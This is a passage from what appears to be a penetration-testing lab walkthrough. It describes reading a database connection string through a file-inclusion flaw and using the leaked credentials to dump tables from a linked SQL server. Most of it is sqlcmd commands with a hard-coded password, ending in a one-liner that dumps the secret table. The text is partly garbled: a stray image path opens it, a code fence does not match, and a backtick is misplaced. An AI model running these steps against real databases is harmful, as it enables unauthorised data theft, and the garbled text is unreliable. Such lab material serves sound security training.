    ```powershell
  Retrieve database connection string from `c:\inetpub\DevIntranet\appsettings.json` via an LFI present in the Document Management page in the Dev Intranet. This file, left insecurely accessible, demonstrates a common security oversight involving sensitive data exposure.

### Database Exploration

Utilize the exposed database credentials to connect using a legitimate account. Without escalating privileges or performing SQL injection, list linked servers and dump critical database contents. This demonstrates how legitimate access can be leveraged to achieve significant impacts, reflecting the high stakes involved even with standard user permissions.

Download `sqlcmd` from [here](https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.0/sqlcmd-windows-amd64.zip).

```bash
# Connect to the database using sqlcmd
sqlcmd -S db01 -U public_db_reader -P 'threewordphrase1!' -W

# List current databases
SELECT name from sys.databases;
GO

# List tables in the 'public_research' database
select * from public_research.information_schema.tables;
GO

# Query the 'ResearchPapers' table in the 'public_research' database
select * from public_research.dbo.researchpapers;
GO

# Check for linked servers as no useful data is present
SELECT * FROM sys.servers WHERE is_linked = 1;
GO

# Query linked server databases
SELECT name FROM db02.master.sys.databases;
GO

# List tables in the _5G_enzyme_experimental database on a linked server
select * from db02._5G_enzyme_experimental.information_schema.tables;
go

# Query the ExperimentalEnzymes table on the db on the linked server
SELECT * FROM DB02._5G_enzyme_experimental.dbo.ExperimentalEnzymes;
GO
```

- Full one-liner to dump secret db: s`qlcmd -S db01 -U public_db_reader -P 'threewordphrase1!' -Q "select * from openquery(db02, 'select * from _5G_enzyme_experimental.dbo.experimentalenzymes');" -W`

